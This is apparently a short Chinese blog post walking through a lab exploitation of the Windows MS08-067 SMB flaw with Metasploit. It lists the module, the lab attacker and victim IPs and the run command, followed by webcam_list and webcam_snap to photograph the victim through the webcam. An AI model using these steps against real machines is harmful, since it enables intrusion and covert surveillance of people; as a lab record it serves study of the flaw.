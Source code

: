 ```yaml
---
layout: post
title:  ms08_067漏洞利用
date: 2021-03-26 11:36:12 +0900
category: exploiting
---
```


## 0x0 确定攻击者IP和受害者IP
#### 攻击机
![](https://lcy2218.github.io/images/20210326-1.png)
#### 受害机
![](https://lcy2218.github.io/images/20210326-2.png)

## 0x1 启动MSF
- msfconsole
- use exploit/windows/smb/ms08_067_netapi
- set lhost 192.168.88.130
- set rhost 192.168.88.139

![](https://lcy2218.github.io/images/20210326-3.png)

- run

![](https://lcy2218.github.io/images/20210326-4.png)

- ipconfig

![](https://lcy2218.github.io/images/20210326-5.png)

## 0x2 启动摄像头

- webcam_list 
- webcam_snap

![](https://lcy2218.github.io/images/20210326-6.png)